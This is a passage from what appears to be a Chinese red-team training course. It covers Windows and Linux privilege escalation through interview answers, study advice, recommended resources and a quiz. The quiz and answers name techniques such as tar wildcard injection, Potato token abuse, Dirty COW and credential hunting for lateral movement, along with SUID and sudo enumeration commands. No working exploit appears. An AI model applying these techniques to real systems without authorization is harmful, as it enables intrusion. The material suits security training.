> 有时候一个小小的通配符就能成为突破口。

---

### 问题4：Windows和Linux提权有什么异同？

**回答思路：**
从多个维度对比，
体现出你对两个系统都有了解。

**参考回答：**
> Windows和Linux提权既有相同点也有不同点。
>
> **相同点：**
> 1. **思路相同** — 都是先收集信息，然后分析可能的提权路径，再逐一尝试。
> 2. **配置错误都是最常见的** — 不管是Windows还是Linux，配置错误导致的提权都是最多的，也是最稳妥的。
> 3. **内核漏洞都是最后的手段** — 都有系统崩溃的风险，一般最后才考虑。
> 4. **都需要对系统深入理解** — 提权考验的是对操作系统的理解程度。
>
> **不同点：**
> 1. **权限体系不同** — Windows是用户、组、ACL、特权的体系；Linux是用户、组、权限位、SUID/SGID、能力的体系。
> 2. **常见提权方式不同** — Windows常见的是服务配置错误、注册表错误、令牌窃取；Linux常见的是sudo配置错误、SUID、计划任务通配符注入。
> 3. **工具不同** — Windows常用PowerUp、WinPEAS、Juicy Potato；Linux常用LinPEAS、GTFOBins。
> 4. **容器方面** — Linux的Docker/LXC容器逃逸比较常见，Windows相对少一些。
>
> 总的来说，虽然具体方法不同，但核心思路是相通的，掌握了一种，另一种也能很快上手。

---

### 问题5：提权失败怎么办？

**回答思路：**
体现出你的耐心和思路，
不要说"提权失败就放弃了"。

**参考回答：**
> 提权失败是很常见的，不能轻易放弃。
> 我一般会这样做：
>
> **第一，再仔细检查一遍信息。**
> 是不是哪里漏了？有没有没注意到的细节？
> 有时候工具的输出很多，容易漏掉关键信息。
> 可以换个工具再跑一遍，或者手动再检查一些关键点。
>
> **第二，深入挖掘密码和凭据。**
> 配置文件里、历史命令里、数据库里、备份文件里，
> 都可能藏着密码。
> 找到密码后可以试试sudo、su、或者横向移动到其他机器。
> 密码复用是很常见的。
>
> **第三，看看第三方服务有没有漏洞。**
> 系统本身提不了权，
> 可以看看运行的第三方服务，
> 比如数据库、中间件、各种业务系统，
> 这些服务如果以高权限运行并且有漏洞，也能提权。
>
> **第四，考虑内核漏洞。**
> 如果是老系统，可能有内核漏洞可以利用。
> 但要注意风险，重要系统谨慎使用，最好先在测试机上试。
>
> **第五，换个思路，不一定非要在这台机器上提权。**
> 可以用这台机器做跳板，先横向移动，
> 去其他机器上看看，说不定其他机器更容易提权。
> 渗透测试的目标是扩大战果，不一定非要死磕一台机器。
>
> 总之，提权失败不可怕，关键是思路要灵活，
> 多尝试不同的方法和角度。

---

## 💪 学习建议

### 6.1 怎么学好提权？

**1. 打好系统基础**
提权本质上考的是对操作系统的理解。
- Windows：权限体系、服务、注册表、组策略...
- Linux：权限体系、进程、文件系统、各种配置文件...
系统基础越扎实，提权越顺手。

**2. 多动手实践**
光看书没用，一定要动手练。
- 搭靶机，一个一个漏洞去试
- 用VMware/VirtualBox建实验环境
- 尝试自己配置漏洞环境，然后利用

**3. 积累工具和EXP**
常用的工具和EXP要收集整理好，
用的时候能马上拿出来。
- 信息收集工具
- 各种提权EXP
- 不同系统版本对应的漏洞

**4. 多做CTF题**
CTF里的提权题质量很高，
能锻炼你的提权思路和技巧。

**5. 关注新漏洞**
安全这行更新很快，
要关注新的提权漏洞和技术。

### 6.2 推荐学习资源

**书籍：**
- 《Windows Internals》— 深入理解Windows
- 《深入理解计算机系统》— 计算机基础
- 各种安全技术博客

**在线资源：**
- GTFOBins — Linux命令提权查询
- LOLBAS — Windows程序提权查询
- Exploit-DB — 漏洞利用数据库
- 各大安全厂商的技术博客

**靶场：**
- VulnHub — 各种漏洞靶机
- Hack The Box — 在线靶场
- TryHackMe — 在线学习平台
- 本地搭建的实验环境

---

## ✏️ 模块测验

### 一、选择题（10道）

1. Windows中，查看当前用户所有权限（包括特权）的命令是？
   A. whoami
   B. whoami /all
   C. net user
   D. id

2. Linux中，查找所有SUID文件的命令是？
   A. find / -perm -2000 -type f
   B. find / -perm -4000 -type f
   C. find / -perm -1000 -type f
   D. find / -type f -suid

3. 以下哪种提权方式风险最低？
   A. 内核漏洞提权
   B. 服务配置错误提权
   C. 驱动加载提权
   D. 缓冲区溢出提权

4. Dirty COW（脏牛）漏洞影响的是？
   A. Windows
   B. Linux
   C. 都影响
   D. 都不影响

5. PrintNightmare漏洞和哪个服务有关？
   A. IIS
   B. Print Spooler
   C. RDP
   D. SMB

6. 以下哪个不是Linux的特殊权限位？
   A. SUID
   B. SGID
   C. Sticky Bit
   D. ACL

7. Juicy Potato利用的是哪个特权？
   A. SeDebugPrivilege
   B. SeImpersonatePrivilege
   C. SeBackupPrivilege
   D. SeLoadDriverPrivilege

8. Windows中，查看所有计划任务的命令是？
   A. tasklist
   B. schtasks /query /fo LIST /v
   C. net start
   D. services.msc

9. tar通配符注入利用的是tar的哪个参数？
   A. -f
   B. -z
   C. --checkpoint-action
   D. -c

10. 关于提权，以下说法错误的是？
    A. 信息收集是提权最重要的一步
    B. 应该先试配置错误，再试内核漏洞
    C. 内核漏洞一定能成功，而且没有风险
    D. 提权失败可以考虑横向移动

### 二、填空题（5道）

1. Windows中，服务配置错误提权主要有三种：未引用服务路径、______、服务注册表权限错误。
2. Linux中，查看当前用户sudo权限的命令是 `______ -l`。
3. Potato系列工具利用的是______特权来提权。
4. 经典的脏牛漏洞（Dirty COW）的CVE编号是CVE-2016-______。
5. 查询Linux命令提权姿势的著名网站是______（填网站名）。

### 三、简答题（5道）

1. 简述提权的一般步骤和方法论。
2. Windows提权和Linux提权有什么相同点和不同点？
3. 列举至少5种Windows提权方法，并简单说明原理。
4. 列举至少5种Linux提权方法，并简单说明原理。
5. 如果拿到Shell后发现没有明显的提权点，你会怎么办？

### 四、实操题（5道）

1. 搭建一个Windows靶机，练习使用PowerUp和WinPEAS进行信息收集，并尝试至少2种提权方法。
2. 搭建一个Linux靶机，练习使用LinPEAS进行信息收集，并尝试至少2种提权方法。
3. 配置一个服务配置错误的环境（比如未引用服务路径），然后练习提权。
4. 配置一个sudo提权的环境，练习使用至少3种不同的命令进行sudo提权。
5. 找一个CTF提权题，独立完成，写下你的解题思路和过程。

---

## 📖 本章小结

::: tip 最后总结一下
到这里，
提权技术模块我们就全部学完了。

**这个模块我们掌握了：**
- Windows权限体系和各种提权方法
- Linux权限体系和各种提权方法
- 提权的思路和方法论
- 各种提权工具的使用
- 实战案例和面试题

**记住提权的核心思路：**
1. 先搞清楚当前权限
2. 全面收集信息（非常重要！）
3. 分析可能的提权路径，按优先级排序
4. 从配置错误开始试，内核漏洞放最后
5. 灵活应变，不行就换思路

**提权是内功，**
考验的是你对操作系统的理解程度。
系统基础越扎实，
提权就越顺手。

所以平时要多学系统知识，
多动手实践，
多做CTF题。

这样你的提权水平
才能不断提高。

下一个模块是内网渗透技术，
我们将学习内网信息收集、
横向移动、域渗透等内容。

提权只是内网渗透的第一步，
后面还有更多精彩的内容等着你！

继续加油！
:::

---

## 🔗 相关链接

- [⬅️ 上一章：---](/redteam/day051-senior-Windows提权高级)
- [➡️ 下一章：---](/redteam/day053-senior-提权模块总结)
- [📖 返回全书目录](/redteam/day118-toc-全书目录)
